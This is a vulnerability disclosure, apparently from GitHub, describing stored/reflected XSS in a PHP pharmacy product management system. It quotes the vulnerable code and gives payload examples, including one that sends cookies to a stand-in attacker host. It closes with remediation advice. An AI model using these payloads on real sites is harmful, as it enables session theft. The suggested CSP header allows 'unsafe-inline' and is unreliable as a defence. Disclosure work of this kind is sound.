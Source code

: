 

# Title: [xss] in [Web-based Pharmacy Product Management System] <= [v1.0]

# **BUG_Author:** [yaklang. io, IRify, Yakit]

## Product Information
- **Vendor Homepage:** [link](https://www.sourcecodester.com/php/17883/web-based-product-alert-system.html)
- **Software Link:** [download-link](https://www.sourcecodester.com/sites/default/files/download/Senior%20Walter/product_expiry.zip)
- **Affected Version:** [<= v1.0]
- **BUG Author:** yaklang. io, IRify 

## Vulnerability Details
### Vulnerable Files
* `add-admin. php`
	* `$_POST["txtpassword"]`
	* `$_POST["txtfullname"]`
	* `$_POST["txtemail"]`
* `changepassword. php`
	* `$_POST["txtconfirm_password"]`
	* `$_POST["txtnew_password"]`
	* `$_POST["txtold_password"]`
* `add-stock. php`
	* `$_POST["txttotalcost"]`
	* `$_POST["txtproductID"]`
	* `$_POST["txtprice"]`
	* `$_POST["txtexpirydate"]`
* `add-product. php`
	* `$_POST["txtprice"]`
	* `$_POST["txtproduct_name"]`
* `add-category.php`
	* `$_POST["txtcategory_name"]`
* `add-supplier. php`
	* `$_POST["txtsupplier_name"]`
	* `$_POST["txtaddress"]`
### Vulnerability Type
**Stored Cross-Site Scripting (XSS)**
*(CWE-79: Improper Neutralization of Input During Web Page Generation)*
### Root Cause
In this php file, we can find code like this: 
If contain post argument, just echo this, and this post argument can set by this html-from and send POST request. 
```php
// add-admin.php
			  <form  action="" method="POST" enctype="multipart/form-data">
                <div class="card-body">
                  <div class="form-group">
                    <label for="exampleInputEmail1">Email </label>
                    <input type="email" class="form-control" name="txtemail" id="exampleInputEmail1" size="77" value="<?php if (isset($_POST['txtemail']))?><?php echo $_POST['txtemail']; ?>" placeholder="Enter Email">
                  </div>
				   <div class="form-group">
                    <label for="exampleInputEmail1">Fullname </label>
                    <input type="text" class="form-control" name="txtfullname" id="exampleInputEmail1" size="77" value="<?php if (isset($_POST['txtfullname']))?><?php echo $_POST['txtfullname']; ?>" placeholder="Enter Fullname">
                  </div>
```
So we just input the xss payload to this table, and click send, and when we return this page, the post argument will be set and xss will be trigger 
### Impact
- Persistent malicious script execution for all users viewing affected pages
- Session hijacking via cookie theft
- Phishing attacks by modifying page content
- Defacement of application interface
- Potential privilege escalation through admin interface compromise
## Description
### Vulnerability Details:
1. **Affected Functionality**: Multiple form fields in various PHP files (`add-admin.php`, `changepassword.php`, `add-stock.php`, `add-product.php`, `add-category.php`, `add-supplier.php`) are vulnerable to **Reflected Cross-Site Scripting (XSS)**.
2. **Root Cause**:
   - User-controlled input from POST requests is directly echoed back into the rendered HTML without proper output encoding.
   - Specifically, parameters like `txtemail`, `txtfullname`, `txtconfirm_password`, etc., are displayed in input fields and page content.

### Attack Vectors:
1. **Reflected XSS**: Attackers can craft malicious URLs or forms that, when visited by other users, execute arbitrary scripts in their browsers.
2. **Exploitation Path**:
   - Send a crafted POST request with malicious input to pages like `add-admin.php`.
   - The payload is stored in the session or form fields and rendered back unescaped upon page load.
   - The browser executes the payload when the compromised page is viewed.

### Attack Payload Examples:
1. **Basic AlertBox**:
   ```html
   <script>alert('XSS Exploit');</script>
   ```
2. **Storing Session Data**:
   ```html
   <script>document.location='https://attacker.com/log?cookie='+document.cookie;</script>
   ```
3. **Popup Window**:
   ```html
   <img src="x" onerror="window.open('https://attacker.com');">
   ```

## Code Scan 
this vulnerability find by [IRify](ssa.to) :

![image.png](https://s2.loli.net/2025/04/09/OlYji3Tq8CJId6G.png)

## Proof of Concept
We show the example in create user, in `add-admin.php`, in this email input is set  `$_POST["txtemail"]` , this payload work. 
And the other code so do. 
![image.png](https://s2.loli.net/2025/04/09/PSb8fuJ2ylBU9xc.png)


![image.png](https://s2.loli.net/2025/04/09/VByO6MzmT8QvKLR.png)


---

## Suggested Repairs

### Immediate Fixes:
1. **Output Encoding**:
   - Use `htmlspecialchars()` to encode special characters in user-controlled input before echoing it back:
     ```php
     $sanitized_email = htmlspecialchars($_POST['txtemail'], ENT_QUOTES, 'UTF-8');
     ```
2. **Input Validation**:
   - Restrict input to allowed characters using regular expressions:
     ```php
     if (!preg_match('/^[a-zA-Z0-9._%+-]+@[a-zA-Z0-9.-]+\.[a-zA-Z]{2,}$/', $_POST['txtemail'])) {
         die('Invalid email format.');
     }
     ```
3. **Use Security Headers**:
   - Implement Content Security Policy (CSP) headers to restrict script execution:
     ```php
     header("Content-Security-Policy: default-src 'self'; script-src 'self' 'unsafe-inline';");
     ```
4. **Validate All User Input**:
   - Ensure all form fields are validated both on the client and server side.

### Long-Term Mitigations:
1. **Adopt a Web Security Framework**:
   - Use frameworks like Laravel or Symfony that automatically handle XSS by escaping output.
2. **Use a Web Application Firewall (WAF)**:
   - Implement a WAF to detect and block malicious payloads before they reach your application.
3. **Security Awareness Training**:
   - Train developers in secure coding practices, focusing on input validation and output encoding.

---

## Additional Information

### Technical Background:
- **XSS Types**:
  - **Reflected XSS**: Payload is echoed back in the response and executed in the browser.
  - **Stored XSS**: Malicious script is stored in the application's database and affects all users who view the affected page.
- **OWASP Risks**:
  - Ranked in the top 10 web application security risks by OWASP, XSS can lead to session hijacking, data theft, and account takeovers.
- **Exploitation Techniques**:
  - **Payload Delivery**: Through crafted URLs, form submissions, or embedded scripts.
  - **Advanced Exploits**: Stealing cookies, session tokens, manipulating DOM for phishing, or bypassing SameSite protections.

### Security Coding Practices:
- Always assume user input is malicious.
- Apply the principle of least privilege — minimize script execution wherever possible.
- Prefer parameterized queries for SQL interactions to prevent related vulnerabilities.

